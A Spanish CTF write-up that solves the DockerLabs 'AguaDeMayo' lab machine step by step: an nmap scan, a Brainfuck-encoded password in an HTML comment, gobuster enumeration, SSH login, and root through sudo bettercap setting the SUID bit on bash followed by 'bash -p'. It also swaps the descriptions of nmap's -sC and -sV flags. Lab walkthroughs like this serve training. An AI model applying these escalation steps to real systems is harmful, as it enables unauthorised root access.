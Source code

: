 ## WRITEUP DE LA MÁQUINA AGUADEMAYO DE DOCKERLABS EN ESPAÑOL

Sitio web - https://dockerlabs.es/#/

Hacemos un escaneo de puertos mediante la herramienta nmap, esto casi siempre es el comienzo para la resolución de una máquina o CTF.

```shell
└─$ nmap -sV -sC 172.17.0.2 -oN outputscan.txt
```
"-sC" Muestra la versión del servicio del puerto abierto.
<br><br>
"-sV" Ejecuta scripts propios de Nmap que, entre otras cosas, descubren información detallada sobre los servicios.
<br><br>
"172.18.0.2" Es la dirección IP de la máquina víctima.
<br><br>
"-oN outputscan.txt" Sirve para que te copie el resultado del escaneo en el fichero que tú le indiques (no hay que crearlo antes, lo crea solo). Esto lo hago por si más tarde quiero volver a ver el escaneo pero no quiero tener que hacerlo de nuevo.

> <span style="color:lightblue;">En este caso no he utlizado ni "-p-", ni "-n", ni "--min-rate 5000" ya que para algo tan sencillo es más eficaz y rapido ejecutar un comando más corto.</span>

```
─$ nmap -sC -sV 172.17.0.2 -oN outputscan.txt
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-07 03:11 EDT
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 172.17.0.2
Host is up (0.00015s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 75:ec:4d:36:12:93:58:82:7b:62:e3:52:91:70:83:70 (ECDSA)
|_  256 8f:d8:0f:2c:4b:3e:2b:d7:3c:a2:83:d3:6d:3f:76:aa (ED25519)
80/tcp open  http    Apache httpd 2.4.59 ((Debian))
|_http-server-header: Apache/2.4.59 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.96 seconds
```

Vemos que el puerto 22 y 80 de los servicios ssh y http respectivamente estan abiertos. Empezaremos por ver que sitio web encontramos con la IP víctima (172.17.0.2):

![pagina web](https://github.com/user-attachments/assets/6c91aa72-6b41-4795-bd48-5be16dc12001)

Vemos que es una página web sencilla, como costrumbre reviso el código fuente con ```Ctrl + u```. Si no eres observador veras un código normal sin nada raro, peo cuando llegas a las últimas lineas vemos que todavía se puedo hacer mucho más scroll hacia abajo, y que vemos...?

```
<!--
++++++++++[>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>++++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>+++++++++++>+>+<<<<<<<<<<<<<<<<<-]>--.>+.>--.>+.>---.>+++.>---.>---.>+++.>---.>+..>-----..>---.>.>+.>+++.>.
-->
```

Es normal no entender que sígnifican tantos caracteres pero si lo buscas en algun navegador o en alguna IA, te diran que es el lenguage de programación conocido como Brainfuck. Metiendo este codigo (Sin el ```<!-- y -->``` del principio y final, eso es solo para hacer un comentario en HTML) un decodificador que he encontrado (https://www.dcode.fr/brainfuck-language) nos muestra que dicho código significa: "bebeaguaqueessano". <br><br>
Tenemos lo que posiblemente sea una contraseña. Vamos ahora a buscar directorios ocultos en esta página web para ver si podemos encontrar algo, algún nombre de usuario, algún archivo o algo. Lo haremos mediante la herramienta Gobuster.

```
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```
El modo dir indica que Gobuster realizará una enumeración de directorios y archivos.
<br><br>
"-u" Especifica la URL del objetivo que Gobuster escaneará. En este caso, el objetivo es http://172.17.0.2/.
<br><br>
"-w" Especifica la lista de palabras (wordlist) que Gobuster usará para la fuerza bruta. La lista de palabras contiene nombres de directorios y archivos comunes que Gobuster intentará encontrar en el servidor web. Aquí se está utilizando una lista de palabras proporcionada por DirBuster, llamada directory-list-2.3-medium.txt.
<br><br>
El resultado:

```
└─$ gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 309] [--> http://172.17.0.2/images/]
/server-status        (Status: 403) [Size: 275]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

Tenemos un directorio oculto en la página llamado "images", lo ponemos en el navegador y vemos:

![Foto directorio images](https://github.com/user-attachments/assets/658bcb1b-7249-42ba-901d-ee6a24359f79)

Probe a descargar los datos y buscar información en los metadatos pero nada, es mucho más simple. Teniendo el nombre de la foto, "agua_ssh.jpg" me dice que el usuario al que debo hacer ssh es "agua" y su contraseña debería ser "bebeaguaqueessano".

```
ssh agua@172.17.0.2
```

Hacemos un ```Sudo -l``` para escalar privilegios, vemos que podemos ejecutar el binario bettercap. Lo ejecutamos mediante ```sudo /usr/bin/bettercap``` y nos sale:

```
agua@fb7a55388ca1:~$ sudo /usr/bin/bettercap 
bettercap v2.32.0 (built for linux amd64 with go1.19.8) [type 'help' for a list of commands]

172.17.0.0/16 > 172.17.0.2  » [08:16:10] [sys.log] [war] exec: "ip": executable file not found in $PATH
172.17.0.0/16 > 172.17.0.2  »  
```

Si escribimos help nos sale una lista de comandos y cosas que podemos ejecutar, vemos que para ejecutar comandos por la shell hay que poner un ! delante del comando:

![bettercap](https://github.com/user-attachments/assets/7bcff637-0ac9-40de-9d86-17274705f825)

Le vamos a dar al binario bash el permiso SUID (activar el bit SUID) y así poder ejecutar bash con los permisos de root sin serlo. Para ello escribimos ```chmod u+s /usr/bin/bash```;
<br><br>
"chmod" -> (change mode) es el comando para cambiar permisos.
<br>
"u" -> Cace referencia a "user", significa que cambiaremos permisos a user.
<br>
"+" -> Con el más conseguimos agregar los permisos que indiquemos.
<br>
"s" -> Hace referencia al permiso SUID (Set User ID), activa dicho bit.
<br>
"/usr/bin/bash" -> Esta es la ruta a la que vamos a sumar los permisos.
<br><br>
Salimos al usuario de agua con ```exit``` y escribimos ```bash -p``` (Usar bash -p te proporciona una shell de root, pero sin arriesgarte a heredar permisos SUID de otros binarios o de la shell en la que estabas trabajando.)

```
agua@fb7a55388ca1:~$ bash -p
bash-5.2# whoami
root          
```

Somos root, muchas gracias por seguir este writeup, nos vemos en la próxima!!
